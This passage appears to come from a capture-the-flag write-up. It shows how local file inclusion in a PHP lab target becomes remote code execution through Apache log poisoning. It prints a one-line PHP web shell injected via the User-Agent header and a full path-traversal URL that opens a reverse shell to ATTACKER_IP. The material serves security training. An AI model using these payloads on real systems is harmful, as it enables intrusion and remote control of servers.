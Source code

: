 Next, let try to get our reverse shell.

Once you have your research done, RCE with PHP LFi, you will see a result talking about [poisoning apache log](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

In order for us to get RCE, we have to modify user-agent as below.

```php
<?php system($_GET['cmd']);?>
```

So let's test out .

![rce-ls](rce-ls.png)

Now let's get reverse shell

```
http://VICTIM_AP/?view=php://filter/resource=dog../../../../../../var/log/apache2/access.log&ext=&cmd=php+-r+%27$sock%3dfsockopen(%22ATTACKER_IP%22,8888)%3bexec(%22/bin/sh+-i+%3C%263+%3E%263+2%3E%263%22)%3b%27
```

![rce-reverse-shell](rce-reverse-shell.png)

Yeah, we success access to the system, let do basic enum and guess what we found --- our second flag !!

![second-flag](second-flag.png)

Let check how to PrivEsc.
